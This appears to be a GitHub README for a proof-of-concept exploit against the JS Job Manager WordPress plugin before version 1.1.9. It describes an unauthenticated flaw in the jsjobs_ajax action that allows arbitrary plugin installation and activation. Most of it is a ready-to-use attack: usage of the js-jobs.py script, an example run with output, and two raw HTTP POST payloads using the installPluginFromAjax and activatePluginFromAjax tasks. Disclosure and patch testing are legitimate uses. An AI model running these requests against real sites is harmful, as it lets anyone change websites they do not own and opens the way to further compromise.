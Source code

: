 # js-jobs
JS Job Manager &lt; 1.1.9 - Unauthenticated Arbitrary Plugin Installation/Activation


# Description
The jsjobs_ajax AJAX action of the plugin available to both authenticated and unauthenticated users does not have proper authorisation and CSRF checks, in particular when using the installPluginFromAjax and activatePluginFromAjax, which could allow unauthenticated attackers to install arbitrary plugins from the WordPress repository, and active them (with some limitation).

There is no control over version of the plugin so you it will install the latest version of the plugin.

How to use
---

```
usage: js-jobs.py [-h] --url URL --slug SLUG
js-jobs.py: error: the following arguments are required: --url/-u, --slug/-s
```

Example
---

```
$ python3 js-jobs.py --url http://192.168.1.131:5555 -s woocommerce
Plugin has been Downloaded.
Plugin has been downloaded and is on the server.
Plugin has been activated / activated.
```



Proof of Concept
---
To install a plugin:
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 90
Connection: close

action=jsjobs_ajax&task=installPluginFromAjax&jsjobsme=jsjobs&pluginslug=<slug>
```

To activate a plugin (there is a limitation here, as the plugin must have the <slug>/<slug>.php file, otherwise it won't be activated):
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 78
Connection: close

action=jsjobs_ajax&task=activatePluginFromAjax&jsjobsme=jsjobs&pluginslug=<slug> 
```
